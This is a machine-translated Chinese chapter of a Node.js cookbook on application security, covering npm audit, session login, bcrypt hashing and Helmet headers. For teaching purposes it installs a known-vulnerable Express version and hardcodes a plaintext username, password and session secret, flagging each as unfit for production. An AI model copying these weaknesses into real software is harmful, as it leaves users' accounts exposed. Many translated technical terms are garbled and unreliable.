





# 九、保护 Node.js 应用

在本书中，我们学习了如何使用 Node.js 构建应用。但与所有软件一样，您必须采取某些预防措施，以确保正在构建的应用是安全的。

您应该首先确保已采用任何包含安全修复的 Node.js 版本。因此，在可能的情况下，您应该瞄准给定 Node.js 发布行的最新版本。

本章将介绍 Node.js web 应用安全性的一些关键方面。后面的方法演示了一些常见的 web 应用攻击，包括**跨站点脚本**（**XSS**）和**跨站点请求伪造**（**CSRF**攻击。这些食谱将展示如何预防和减轻其中一些攻击的风险。

本章将介绍以下配方：

*   检测已知依赖漏洞
*   使用 Express.js 进行身份验证
*   使用头盔设置 HTTP 头
*   防范 HTTP 参数污染攻击
*   防止污染
*   防止跨站点脚本攻击
*   防范跨站点请求伪造攻击

# 技术要求

您应该安装 Node.js，最好是 Node.js 14 的最新版本，并可以访问您选择的编辑器和浏览器。

在整个配方中，我们将从`npm`注册表安装模块–因此，需要互联网连接。

配方代码将在 Packt GitHub 存储库中的[中提供 https://github.com/PacktPublishing/Node.js-14-Cookbook `Chapter09`目录中的](https://github.com/PacktPublishing/Node.js-14-Cookbook)。

# 检测已知依赖漏洞

在这本书中，我们利用了在 Type T0}注册表上的模块，为我们构建的应用形成了一个基础。我们已经了解了庞大的模块生态系统如何使我们能够专注于应用逻辑，而不必为每个应用重新发明通用的低级技术解决方案。

这个生态系统是 Node.js 成功的关键。但它确实会在我们的应用中产生大型嵌套依赖树。我们不仅必须关心我们自己编写的应用代码的安全性，而且还必须考虑包含在依赖树中的模块中的代码的安全性。即使是最成熟和流行的模块和框架也可能包含安全漏洞。

在此配方中，我们将演示如何检测项目依赖关系树中的已知漏洞。

## 准备好了吗

对于这个配方，我们只需要一个目录，可以在其中安装一些 Node.js 模块：

```js
$ mkdir audit-deps $ cd audit-deps $ npm init --yes
```

我们不需要添加任何进一步的代码，因为我们将重点学习如何使用终端审计依赖项。

## 怎么做…

在此配方中，我们将从`npm`注册表安装一些模块，并扫描它们的漏洞：

1.  First, let's install an old version of the `express` module. We've intentionally chosen an old version with known vulnerabilities to demonstrate how to audit our dependencies. This version of Express.js is not recommended for use in production applications:

    ```js
    $ npm install express@4.15.0
    npm WARN audit-deps@1.0.0 No description
    npm WARN audit-deps@1.0.0 No repository field.
    + express@4.15.0
    updated 1 package and audited 46 packages in 1.466s
    found 9 vulnerabilities (3 low, 2 moderate, 4 high)
      run `npm audit fix` to fix them, or `npm audit` for 	details
    ```

    请注意，`npm`输出检测到此版本的 Express.js 中的九个已知漏洞。

2.  如输出所示，运行`$ npm audit`命令了解更多详细信息：

    ```js
    $ npm audit
    ```

3.  Observe the output of the `$ npm audit` command, as shown in the following screenshot. The output lists the individual vulnerabilities with further information:

    

    图 9.1–项目的 npm 审计输出 express@4.15.0

4.  We can follow the **More info** link to navigate to the `npm` advisory for the particular vulnerability. This will open a web page detailing an overview of the vulnerability and remediation actions similar to the following:

    

    图 9.2–npm 漏洞咨询示例

5.  我们可以尝试使用`$ npm audit fix`命令自动修复漏洞。这将尝试将任何依赖项更新为固定版本：

    ```js
    $ npm audit fix
    npm WARN audit-deps@1.0.0 No description
    npm WARN audit-deps@1.0.0 No repository field.
    + express@4.17.1
    added 8 packages from 10 contributors, removed 4 packages and updated 17 packages in 1.574s
    fixed 9 of 9 vulnerabilities in 46 scanned packages
    ```

6.  现在，当我们重新运行`$ npm audit`命令时，我们将得到以下输出，指示在我们的模块依赖关系树中不再检测到任何已知漏洞：

    ```js
    $ npm audit

                           === npm audit security report ===                        

    found 0 vulnerabilities
     in 50 scanned packages
    ```

我们现在已经学会了如何使用`$ npm audit`扫描依赖项中的已知漏洞。

## 它是如何工作的…

自`npm`版本 6 起，`$ npm audit`命令已可用。该命令提交应用中依赖关系的报告，并将其与已知漏洞的数据库进行比较。`$ npm audit`命令将审核直接依赖项、开发依赖项、捆绑依赖项和可选依赖项。但是，它不会审核对等依赖关系。该命令要求同时存在`package.json`和`package-lock.json`文件；否则，它将失败。当使用`$ npm install`命令安装包时，审计将自动运行。

许多专家认为，预防性措施可以保护他们的应用抵御已知的安全漏洞。因此，通常会将`$ npm audit`命令添加到您的**持续集成**（**CI**测试中。当发现漏洞时，`$ npm audit`命令报告错误代码`1`；可以利用此错误代码指示测试失败。

在配方中，我们使用`$ npm audit fix`命令自动将依赖项更新为固定版本。该命令将仅将依赖项升级到更高的次要版本或修补程序版本。

如果仅在新的主要版本中修复漏洞，`npm`将输出一条警告，指示**SEMVER 警告：建议的操作是一个潜在的破坏性更改**，如以下屏幕截图所示：


图 9.3–npm 审计输出显示了突破性的变更解决方案

`$ npm audit fix`命令不会自动修复这些情况，因为您可能需要更新应用代码以适应依赖关系中的突破性更改。使用`$ npm audit fix --force`命令，可以覆盖此行为并强制`npm`更新所有依赖项，即使它们包括中断更改。但是，在发生重大变更的情况下，谨慎的做法是审查各个模块的漏洞，并一次手动更新一个模块。

在某些情况下，依赖项的修补版本可能不可用。在这种情况下，`npm`将通知您需要手动审查。在手动检查期间，有必要尝试确定您的应用是否容易受到该漏洞的影响。有些漏洞只适用于某些 API 的使用，因此如果您的应用中没有使用这些 API，则可以忽略特定的漏洞。如果该漏洞适用于您的应用，并且没有可用的依赖版本的补丁版本，那么如果可能的话，您应该考虑在树上自己修补它。

重要提示

一般来说，让应用的依赖项尽可能保持最新是值得的，以确保您拥有最新的可用 bug 和安全修复。工具如**可信性**（[等 https://dependabot.com/](https://dependabot.com/) ）通过在 GitHub 上自动更新，可以帮助您保持依赖关系的最新状态。

请注意，`$ npm audit`通过将依赖关系树与已知漏洞的数据库进行比较来工作。`$ npm audit`不返回已知漏洞并不意味着您的依赖项不易受攻击；树中可能仍然存在一些未报告或未知的漏洞。还有一些商业服务提供模块依赖漏洞审计服务。其中一些，如**Snyk**（[https://snyk.io/](https://snyk.io/) ），维护自己的漏洞数据库，其中可能包含一组不同的已报告漏洞，以审计您的依赖关系。

## 另见

*   `npm`关于`npm audit`[的文件 https://docs.npmjs.com/auditing-package-dependencies-for-security-vulnerabilities](https://docs.npmjs.com/auditing-package-dependencies-for-security-vulnerabilities)
*   [*第五章*](05.html#_idTextAnchor134)*消费 Node.js 模块*配方*开发 Node.js 模块*

# 使用 Express.js 进行身份验证

许多 web 应用需要登录系统。通常，一个网站的用户拥有不同的权限，为了确定他们能够访问哪些资源，必须首先通过身份验证来识别他们。

这通常通过设置会话来实现，会话是用户和设备之间的临时信息交换。在这个配方中，我们将为 Express.js 服务器实现一个身份验证层。

## 准备好了吗

首先，我们必须为配方搭建一个 Express.js web 服务器：

重要提示

关于 Express.js 的详细介绍，请参考[*第 6 章*](06.html#_idTextAnchor165)、*探索 Node.js web 框架*中的*使用 Express.js*构建 web 应用的配方。

1.  首先，让我们创建一个项目目录，并使用`npm`初始化项目。我们还将创建一些文件和子目录，稍后将在配方中使用：

    ```js
    $ mkdir express-auth
    $ cd express-auth
    $ npm init --yes
    $ mkdir routes views
    $ touch server.js routes/index.js views/index.ejs
    ```

2.  我们还需要安装`express`、`ejs`和`body-parser`模块：

    ```js
    $ npm install express ejs body-parser
    ```

3.  将以下代码添加到`server.js`文件中。这将配置我们将扩展的初始 Express.js 服务器：

    ```js
    const express = require("express");
    const bodyParser = require("body-parser");
    const { join } = require("path");
    const index = require("./routes/index");
    const app = express();
    app.set("views", join(__dirname, "views"));
    app.set("view engine", "ejs");
    app.use(bodyParser.urlencoded({ extended: false }));
    app.use("/", index);
    app.listen(3000, () => {
      console.log("Server listening on port 3000");
    });
    ```

4.  将下面的添加到`routes/index.js`以创建一个基本路由，该路由将处理`/`

    ```js
    const { Router } = require("express");
    const router = Router();
    router.get("/", (req, res) => {
      res.render("index");
    });
    module.exports = router;
    ```

    上的 HTTP GET 请求
5.  将下面的添加到`views/index.ejs`中，创建一个**嵌入式 JavaScript**（**EJS**模板。现在，这只是一个简单的欢迎页面模板：

    ```js
    <html>
        <head>
            <title> Express </title>
        </head>
        <body>
            <h1> Express </h1>
            <p> Welcome to Express </p>
        </body>
    </html>
    ```

6.  Start the server with the following command and navigate to `http://localhost:3000` in your browser:

    ```js
    $ node server.js
    Server listening on port 3000
    ```

    您应该会看到熟悉的**欢迎使用 Express**网页。使用*Ctrl*+*C*停止服务器。

现在我们有了一个简单的 Express.js 服务器，我们可以开始向它添加身份验证层了。

## 怎么做…

在此配方中，我们将使用`express-session`模块向 Express.js 服务器添加登录系统：

1.  首先安装`express-session`模块：

    ```js
    $ npm install express-session
    ```

2.  我们将创建一个单独的路由来处理身份验证，还将创建一个包含 HTML 登录表单的 EJS 模板。让我们现在创建这些文件：

    ```js
    $ touch routes/auth.js views/login.ejs
    ```

3.  在`server.js`中，我们需要导入`express-session`模块。为此，在`body-parser`导入下方添加以下行：

    ```js
    const session = require("express-session");
    ```

4.  另外，在`server.js`中，我们需要导入我们的认证路由（我们将在后面的步骤中编写此路由）。在`index`路由导入下方添加以下行：

    ```js
    const auth = require("./routes/auth");
    ```

5.  现在，我们需要注册`express-session`中间件。在`view engine`配置的正下方，添加以下内容以注册`express-session`中间件：

    ```js
    app.use(
      session({
        name: "SESSIONID",
        secret: "Node Cookbook",
        resave: false,
        saveUninitialized: false,
      })
    );
    ```

6.  我们需要在`server.js`中注册认证路由。我们将在`/auth`上安装此路由。在`index`路由注册下方添加以下行：

    ```js
    app.use("/auth", auth);
    ```

7.  现在，让我们使用 EJS 模板创建 HTML 登录表单。HTML 表单将有两个字段，用户名和密码。此模板将期望传递一个名为`fail`的值。当`fail`值为`true`时，将呈现`Login Failed.`消息。将以下代码添加到`views/login.ejs`：

    ```js
    <html>
      <head>
        <title>Express - Login</title>
      </head>
      <body>
        <h1>Login</h1>
        <% if (fail) { %>
        <h2>Login Failed.</h2>
        <% } %>
        <form method="post" action="login">
          Username: <input type="text" name="username" />
          Password: <input type="password" name="password" />
          <input type="submit" value="Login" />
        </form>
      </body>
    </html>
    ```

8.  Now, we need to build our authentication router. We'll do this in the `routes/auth.js` file. The authentication router will contain route handlers for the `/login` and `/logout` endpoints. The `/login` endpoint will require both an HTTP GET and an HTTP POST handler. The HTTP POST handler for the `/login` endpoint will receive and parse the form data (username and password) to validate the user credentials.

    重要提示

    请注意，为了简单起见，在这个配方中，我们用纯文本硬编码了预期的用户名和密码值。在实际应用中，应根据数据库验证凭据，其中用户密码以哈希形式存储。有关密码哈希的示例，请参阅*中的*使用 bcrypt*进行哈希，这里有更多的……*部分。

    在`routes/auth.js`中添加以下内容以创建认证路由：

    ```js
    const { Router } = require("express");
    const router = Router();
    router.get("/login", (req, res, next) => {
      res.render("login", { fail: false });
      next();
    });
    router.post("/login", (req, res, next) => {
      if (req.session.user) {
        res.redirect("/");
        next();
        return;
      }
      if (req.body.username === "beth" && req.body.password === "badpassword") {
        req.session.user = { name: req.body.username };
        res.redirect("/");
        next();
        return;
      }
      res.render("login", { fail: true });
      next();
    });
    router.get("/logout", (req, res, next) => {
      req.session.user = null;
      res.redirect("/");
    });
    module.exports = router;
    ```

9.  让我们扩展我们的`view/index.ejs`模板，为经过身份验证的用户输出一条欢迎消息：

    ```js
    <html>
        <head>
            <title> Express </title>
        </head>
        <body>
            <h1> Express </h1>
            <p> Welcome to Express </p>
            <% if (user) { %>
            <p> Hello <%= user.name %>! </p>
            <p> <a href=/auth/logout> Logout </a> </p>
            <% } else { %>
            <p> <a href=/auth/login> Login </a> </p>
            <% } %>
        </body>
    </html>
    ```

10.  在`routes/index.js`中的 HTTP GET 路由处理程序中，我们现在需要将`user`值传递给 EJS 模板。将路由处理程序更改为以下内容：

    ```js
    router.get("/", (req, res) => {
      const user = req.session.user;
      res.render("index", { user });
    });
    ```

11.  现在，让我们测试一下我们的登录系统。使用以下命令启动 web 服务器：

    ```js
    $ node server.js
    Server listening on port 3000
    ```

12.  Navigate to `http://localhost:3000` in your browser. Expect to see the following web page:

    

    图 9.4“欢迎使用 Express”网页

13.  Click **Login** and expect to be directed to the HTML login form:

    

    图 9.5–登录表单

14.  Supply a random username and password and click **Login**. Since this doesn't match our hardcoded values, we expect to see the **Login Failed.** message:

    

    图 9.6–显示“登录失败”消息的登录表单

15.  Let's try the hardcoded values. Supply the username `beth` and password `badpassword` and click **Login**. The login should be successful, and will redirect back to the `/` endpoint, where there will be a **Hello beth!** message:

    

    图 9.7–显示“Hello beth！”消息的“欢迎使用 Express”页面

16.  最后，让我们尝试注销。点击**注销**链接。这应该重定向回相同的端点，但是**Hello beth！会话结束后，**消息将被删除。

这个食谱介绍了`express-session`模块，并解释了如何使用它来构建简单的登录功能。

## 它是如何工作的…

在配方中，我们使用`express-session`模块构建了一个登录系统来处理会话。

我们首先在 Express.js 应用中导入并注册了`express-session`中间件（在`server.js`文件中）。该中间件将会话对象注入每个请求对象（`req`。在对用户进行身份验证之前，会话值将是空对象。

注册`express-session`中间件时，我们提供了以下配置选项：

*   `name`：会话的 cookie 名称。
*   `secret`：用于对会话 cookie 进行签名的秘密。这是一个必需的配置选项。
*   `resave`：强制将会话重新保存回会话存储中，会话存储是存储会话信息的地方。在配方中，该值设置为`false`，表示我们不希望将会话数据保存在会话存储中。
*   `saveUninitialized`：强制将未保存的会话保存到会话存储中。

配置选项的完整列表可在`express-session`API 文档（[中找到 https://github.com/expressjs/session#api](https://github.com/expressjs/session#api) 。

重要提示

有关 Express.js 中间件的更多信息，请参阅[*第 6 章*](06.html#_idTextAnchor165)*探索 Node.js Web 框架*中的*使用 Express.js*创建自定义中间件一节。

网页上的登录超链接将用户重定向到`/auth/login`端点。此终结点的路由处理程序已在身份验证路由中声明。此路由呈现包含 HTML 登录表单的`views/login.ejs`模板。

当用户在表单中输入用户名和密码并单击**提交**时，浏览器对值进行编码并将其设置为请求主体。我们的 HTML 表单将其方法设置为 HTTP POST（`method="post"`），它指示浏览器在提交表单时发送 HTTP POST 请求。HTML 表单中的 action 属性被设置为`login`，这指示浏览器将 HTTP POST 请求发送到`/auth/login`端点。

在`routes/auth.js`中，我们为`/auth/login`端点的 HTTP POST 请求注册了一个处理程序。此路由处理程序首先检查是否存在现有用户会话。如果存在现有会话，它将用户重定向到`/`端点。如果没有现有的用户会话，那么处理程序将验证提供的用户名和密码是否与我们的硬编码值匹配。

如果用户名和密码不匹配，我们的 HTTP POST`/auth/login`路由处理程序将`views/login.ejs`模板呈现为`{ fail : true }`值（在`auth.js`的*行*上）。这指示`views/login.ejs`模板呈现**登录失败。**消息。

重要提示

不要在生产应用中以纯文本形式存储密码！您通常会根据安全数据库中存储的凭据验证提供的用户名和密码，密码以散列形式存储。

当身份验证成功时，我们将`req.session.user`值设置为提供的用户名，并将经过身份验证的用户重定向回`/`端点。此时，`express-session`中间件创建一个会话标识符，并在请求上设置`Set-Cookie`HTTP 头。`Set-Cookie`头被设置为会话密钥名称和会话标识符。密钥名称默认为`connect.sid`。我们使用`SESSIONID`覆盖该值，以避免对服务器进行指纹识别。

服务器指纹识别是识别 web 服务器的类型和版本的地方。有了这些信息，黑客可以更好地锁定他们的攻击目标。如果我们保留默认值，攻击者可以很容易地从该标题推断出我们正在将 Express.js 与`express-session`中间件一起使用，因此我们将其更改为更通用的内容。

重要提示

重写`connect.sid`值只是屏蔽 HTTP 请求头的一个步骤，从而使服务器的指纹识别更加困难。您可能会注意到，`X-Powered-By: Express`收割台仍然存在–本章中的*头盔硬化收割台*配方将涵盖其他收割台的遮蔽，包括`X-Powered-By`收割台。

`express-session`中间件默认使用进程内存储机制来存储会话令牌。但是，这些代币没有过期，这意味着我们的流程将继续被越来越多的代币填充。这可能最终导致性能下降或进程崩溃。同样，在生产环境中，您通常会使用会话存储。`express-session`中间件在[维护兼容会话存储列表 https://github.com/expressjs/session#compatible-会话存储](https://github.com/expressjs/session#compatible-session-stores)。

当请求被重定向到`/`时，它现在设置了`Set-Cookie`HTTP 头。`express-session`中间件识别会话密钥名称并提取会话标识符。通过该标识符，`express-session`可以查询会话存储中的任何关联状态。在这种情况下，状态是我们分配给`auth.js`中`req.session`对象的用户对象。

`req.session.user`值传递给更新后的`views/index.ejs`模板。此模板包含这样的逻辑：当存在`req.session.user`值时，它将呈现`Hello beth!`字符串。模板中的逻辑也在显示**登录**或**注销**链接之间切换，具体取决于用户是否经过身份验证。

点击**注销**向`/auth/logout`端点发送 HTTP GET 请求。此端点将`req.session`设置为`null`，从而结束会话并从会话存储中删除会话数据。我们的浏览器可以继续存储和发送无效的会话 cookie，直到它到期，但是在会话存储中没有有效匹配，服务器将忽略会话并考虑用户未经验证。

## 还有更多…

以下部分将介绍安全会话 cookie 和如何散列密码的简单示例。

### 安全会话 cookies

可以使用属性标记 cookies。`Secure`属性强制浏览器不使用 HTTP 将 cookie 发送回服务器。这是为了避免**中间人**（**MITM**攻击。在生产应用中，应使用 HTTPS 和安全 cookie。但是在开发中，使用 HTTP 更容易。

对于生产环境来说，在负载平衡器层应用 SSL 加密是典型的。负载平衡器是应用体系结构中的一种技术，负责通过在一组资源上分配一组任务来提高应用的效率，例如，将登录请求分配给服务器。

我们可以将 Express.js web 服务器配置为通过 HTTP 与负载平衡器通信，但仍然支持使用`trust proxy`配置的`Secure`cookie。`trust proxy`设置允许我们指定受信任的代理。有关更多信息，请参阅 Express.js 文档（[https://expressjs.com/en/guide/behind-proxies.html](https://expressjs.com/en/guide/behind-proxies.html) ）。

### 用 bcrypt 散列

密码不应以纯文本形式存储，而应以散列形式存储。使用**散列函数**将密码转换为散列形式。哈希函数使用算法将值转换为无法识别的数据。转换是单向的，这意味着不可能从散列中确定值。网站将通过对提供的密码应用哈希函数并将其与存储的哈希进行比较来验证用户的密码输入。

散列通常与一种称为**盐析**的技术相结合。salt 是指在生成散列之前，将一个称为*salt*的唯一值附加到密码中。这有助于防止暴力攻击，并使破解密码更加困难。

`bcrypt`（[https://www.npmjs.com/package/bcrypt](https://www.npmjs.com/package/bcrypt) 是一个流行的模块，用于在 Node.js 中散列密码。以下示例将演示如何使用`bcrypt`模块使用 salt 生成哈希：

1.  首先，创建并初始化目录：

    ```js
    $ mkdir hashing-with-bcrypt
    $ cd hashing-with-bcrypt
    $ npm init --yes
    $ touch hash.js validate-password.js
    ```

2.  接下来，安装`bcrypt`模块：

    ```js
    $ npm install bcrypt
    ```

3.  我们的程序希望密码作为参数提供。将以下内容添加到`hash.js`以提取参数值：

    ```js
    const password = process.argv[2];
    ```

4.  接下来在`hash.js`中导入`bcrypt`模块：

    ```js
    const bcrypt = require("bcrypt");
    ```

5.  现在我们必须定义盐轮的数量。`bcrypt`将使用指定的轮数生成盐。轮数越高，哈希就越安全。但是，在应用中生成和验证哈希也需要更长的时间。在本例中，我们将盐轮数设置为`10`：

    ```js
    const saltRounds = 10;
    ```

6.  Next, we need to call the `bcrypt` module's `hash()` method. We supply this method with the plain text password, the number of salt rounds, and the callback function to be executed once the hash has been generated. Our callback will output the hashed form of the password using `console.log()`. Add the following to `hash.js`:

    ```js
    bcrypt.hash(password, saltRounds, (err, hash) => {
      console.log(hash);
    });
    ```

    在实际应用中，您希望在回调函数中包含将哈希持久化到数据库的逻辑。

7.  用下面的命令运行程序。您应该期望生成一个唯一的哈希：

    ```js
    $ node hash.js 'badpassword'
    $2b$10$7/156fF/0lyqzB2pxHQJE.czJj5xZjN3N8jofXUxXi.UG5X3KAzDO
    ```

8.  Next, we should learn how we can validate the password. We'll create a program that expects both the password and the hash as arguments. The program will compare the password and hash using the `bcrypt.compare()` method:

    ```js
    const password = process.argv[2];
    const hash = process.argv[3];
    const bcrypt = require("bcrypt");
    bcrypt
      .compare(password, hash)
      .then((res) => {
        console.log(res);
      })
      .catch((err) => console.error(err.message));
    ```

    当密码和哈希匹配时，`res`将为`true`，当密码和哈希不匹配时，`false`将为。

9.  Run the `validate-password.js` program. The first argument should be the same password you supplied to the `hash.js` program. The second argument should be the hash that your `hash.js` program created:

    ```js
    $ node validate-password.js 'badpassword' '$2b$10$7/156fF/0lyqzB2pxHQJE.czJj5xZjN3N8jofXUxXi.UG5X3KAzDO'
    true
    ```

    请注意，参数值应该用单引号括起来，以确保保留文字值。

这演示了如何使用`bcrypt`模块创建散列，以及如何根据现有散列验证值。

## 另见

*   [*第 6 章*](06.html#_idTextAnchor165)*探索 Node.js web 框架*中的*使用 Express.js*配方构建 web 应用
*   本章防止站点交叉脚本攻击
*   本章中的*防范跨站点请求伪造攻击*配方

# 使用头盔设置 HTTP 头

Express.js 是一个轻量级 web 框架，因此核心框架没有实施某些通常用于提高应用安全性的措施。我们可以采取的预防措施之一是在请求上设置某些与安全相关的 HTTP 头。有时，这被称为“强化”HTTP 请求的头。

**头盔**模块[https://github.com/helmetjs/helmet](https://github.com/helmetjs/helmet) 提供了一个中间件在我们的 HTTP 请求上设置与安全相关的头，节省了手动配置的时间。头盔将 HTTP 头设置为合理且安全的默认值，然后可以根据需要对其进行扩展或自定义。在本食谱中，我们将学习如何使用头盔模块。

## 准备好了吗

我们将扩展一个 Express.js 应用以使用头盔模块，因此我们必须首先创建一个基本的 Express.js 服务器：

1.  创建一个名为`express-helmet`的目录，并用`npm`初始化项目。我们还将安装`express`模块：

    ```js
    $ mkdir express-helmet
    $ cd express-helmet
    $ npm init --yes
    $ npm install express
    ```

2.  创建一个名为`server.js`：

    ```js
    $ touch server.js
    ```

    的文件
3.  将以下代码添加到`server.js`：

    ```js
    const express = require("express");
    const app = express();
    app.get("/", (req, res) => res.send("Hello World!"));
    app.listen(3000, () => {
      console.log("Server listening on port 3000");
    });
    ```

现在，我们已经创建了 base Express.js 应用，我们准备继续进行配方步骤。

## 怎么做…

在本教程中，我们将学习如何使用头盔模块强化 Express.js 应用的 HTTP 头：

1.  首先，启动 Express.js web 服务器：

    ```js
    $ node server.js
    ```

2.  现在，让我们检查一下 Express.js 应用返回的标题。我们可以使用**卷曲**工具进行此操作。在第二个终端窗口中，输入以下命令：

    ```js
    $ curl -I http://localhost:3000
    ```

3.  You should see a response similar to the following that lists the HTTP headers returned on the request:

    ```js
    HTTP/1.1 200 OK
    X-Powered-By: Express
    Content-Type: text/html; charset=utf-8
    Content-Length: 207
    ETag: W/"cf-sMq3uu/Hzh7Qc54TveG8DxiBA2U"
    Date: Thu, 03 Sep 2020 00:03:14 GMT
    Connection: keep-alive
    Keep-Alive: timeout=5
    ```

    注意`X-Powered-By: Express`标题。

4.  现在，让我们开始使用`helmet`模块强化这些标题。使用以下命令安装`helmet`模块：

    ```js
    $ npm install helmet
    ```

5.  我们需要导入`app.js`文件中的`helmet`中间件。通过在`express`导入下方添加以下行来完成此操作：

    ```js
    const helmet = require("helmet");
    ```

6.  接下来，我们需要指示 Express.js 应用使用`helmet`中间件。在`const app = express();`行下方添加以下内容：

    ```js
    app.use(helmet());
    ```

7.  现在，重新启动服务器：

    ```js
    $ node server.js
    ```

8.  再次发送**卷曲**请求：

    ```js
    $ curl -I http://localhost:3000
    ```

9.  Now, we can see that we get many additional headers returned on the request:

    ```js
    HTTP/1.1 200 OK
    Content-Security-Policy: default-src 'self';base-uri 'self';block-all-mixed-content;font-src 'self' https: data:;frame-ancestors 'self';img-src 'self' data:;object-src 'none';script-src 'self';script-src-attr 'none';style-src 'self' https: 'unsafe-inline';upgrade-insecure-requests
    X-DNS-Prefetch-Control: off
    Expect-CT: max-age=0
    X-Frame-Options: SAMEORIGIN
    Strict-Transport-Security: max-age=15552000; includeSubDomains
    X-Download-Options: noopen
    X-Content-Type-Options: nosniff
    X-Permitted-Cross-Domain-Policies: none
    Referrer-Policy: no-referrer
    X-XSS-Protection: 0
    Content-Type: text/html; charset=utf-8
    Content-Length: 12
    ETag: W/"c-Lve95gjOVATpfV8EL5X4nxwjKHE"
    Date: Thu, 03 Sep 2020 22:49:02 GMT
    Connection: keep-alive
    Keep-Alive: timeout=5
    ```

    请注意，`X-Powered-By`收割台已拆下。

我们已经将`helmet`中间件添加到 Express.js 服务器中，并观察到它对请求返回的 HTTP 头所做的更改。

## 它是如何工作的…

`helmet`模块根据其安全默认值，在我们的请求上配置一些 HTTP 头。在配方中，我们将`helmet`中间件应用于我们的 Express.js 服务器。

`helmet`删除`X-Powered-By: Express`头，因此发现基于 Express 的服务器变得更加困难。混淆这一点的原因是为了防止攻击者试图利用面向 Express.js 的安全漏洞进行攻击，从而减慢他们确定应用中使用的服务器类型的速度。

`helmet`然后使用适当的默认值将以下标头注入到我们的请求中：



图 9.8–头盔中间件添加的默认 HTTP 头

`helmet`模块将注入的 HTTP 头设置为合理的安全默认值。但是，它们可以定制。例如，您可以使用以下代码手动将`Referrer-Policy`的值设置为`no-referrer`头：

```js
app.use(
  helmet({
    referrerPolicy: { policy: "no-referrer" },
  })
);
```

